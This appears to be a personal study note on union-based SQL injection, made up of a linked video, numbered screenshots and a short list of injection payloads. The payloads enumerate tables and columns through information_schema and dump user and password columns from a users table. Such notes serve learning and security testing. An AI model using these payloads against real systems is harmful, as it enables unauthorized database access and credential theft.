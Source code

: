 [[SQL-Injection]]
[Youtube](https://www.youtube.com/watch?v=TlTMDw1KD_8&feature=emb_logo)

# Union Based SQLi
1. ![[Pasted image 20201210003338.png]]
2. ![[Pasted image 20201210003752.png]]
3. ![[Pasted image 20201210003703.png]]
4. ![[Pasted image 20201210003926.png]]
5. ![[Pasted image 20201210004056.png]]
6. ![[Pasted image 20201210023745.png]]![[Pasted image 20201210023846.png]]
7. Basic info column ![[Pasted image 20201210024122.png]]![[Pasted image 20201210024222.png]]
8. Some other payloads
	1. show all tables `group_concat(table_name,0x0a) from information_schema.tables where table_schema=database()`
	2.  show all columns (update users to the table you are using if it is not called users)`group_concat(column_name,0x0a) from information_schema.columns where table_name='users'`
	3.  show column data (user and password are the column names and users is the table name)`group_concat(user, 0x0a, password) from users`